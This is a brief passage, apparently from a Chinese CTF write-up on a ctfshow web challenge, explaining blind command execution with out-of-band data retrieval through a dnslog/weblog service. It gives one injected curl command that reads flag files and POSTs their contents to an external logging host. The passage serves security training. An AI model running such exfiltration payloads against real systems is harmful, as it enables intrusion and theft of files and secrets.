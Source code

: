 

![14](/medias/ctfshow-web/14.png)

没有公网服务器，可以试试dnslog、weblog，直接外带

平台推荐[【dnslog/weblog】](https://eyes.sh/web/)，参考往期文章[【使用weblog平台接收无回报RCE命令执行结果】](https://the0n3.top/pages/rce-weblog/)

```bash
code=curl 219tzymz.eyes.sh -X POST -d "1=`cat f*;cat /f*`"
```



![](/medias/ctfshow-web/11.png)
